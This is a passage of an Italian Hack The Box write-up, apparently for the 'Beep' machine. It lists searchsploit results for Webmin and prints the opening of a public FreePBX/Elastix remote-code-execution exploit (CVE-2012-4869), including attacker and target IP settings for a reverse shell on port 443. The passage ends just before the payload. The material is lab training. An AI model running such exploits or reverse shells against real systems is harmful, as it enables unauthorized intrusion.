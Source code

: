 ```bash
Webmin 1.973 - 'run.cgi' Cross-Site Request Forgery (CSRF)| linux/webapps/50144.py
Webmin 1.973 - 'save_user.cgi' Cross-Site Request Forgery (CSRF)| linux/webapps/50126.py
Webmin 1.984 - Remote Code Execution (Authenticated)| linux/webapps/50809.py
Webmin 1.996 - Remote Code Execution (RCE) (Authenticated)| linux/webapps/50998.py
Webmin 1.x - HTML Email Command Execution | cgi/webapps/24574.txt
Webmin < 1.290 / Usermin < 1.220 - Arbitrary File Disclosure | multiple/remote/1997.php
Webmin < 1.290 / Usermin < 1.220 - Arbitrary File Disclosure | multiple/remote/2017.pl
Webmin < 1.920 - 'rpc.cgi' Remote Code Execution (Metasploit)| linux/webapps/47330.rb

```

# EXPLOITATION

## RCE 

Questa attacco sarò diretto alla porta 443

come prima cosa ci scarichiamo l'exploit 18650.py e gli diamo un occhio

```bash
┌──(root㉿kali)-[/home/kali/htb/beep]
└─# searchsploit -m 18650.py
  Exploit: FreePBX 2.10.0 / Elastix 2.2.0 - Remote Code Execution
      URL: https://www.exploit-db.com/exploits/18650
     Path: /usr/share/exploitdb/exploits/php/webapps/18650.py
    Codes: OSVDB-80544, CVE-2012-4869
 Verified: True
File Type: Python script, ASCII text executable, with very long lines (418)
Copied to: /home/kali/htb/beep/18650.py


┌──(root㉿kali)-[/home/kali/htb/beep]
└─# cat 18650.py    
#!/usr/bin/python
############################################################
# Exploit Title: FreePBX / Elastix pre-authenticated remote code execution exploit
# Google Dork: oy vey
# Date: March 23rd, 2012
# Author: muts, SSL update by Emporeo
# Version: FreePBX 2.10.0/ 2.9.0, Elastix 2.2.0, possibly others.
# Tested on: multiple
# CVE : notyet
# Blog post : http://www.offensive-security.com/vulndev/freepbx-exploit-phone-home/
# Archive Url : http://www.offensive-security.com/0day/freepbx_callmenum.py.txt
############################################################
# Discovered by Martin Tschirsich
# http://seclists.org/fulldisclosure/2012/Mar/234
# http://www.exploit-db.com/exploits/18649
############################################################
import urllib
import ssl
rhost="172.16.254.72"
lhost="172.16.254.223"
lport=443
extension="1000"

ssl._create_default_https_context = ssl._create_unverified_context

# Reverse shell payload

```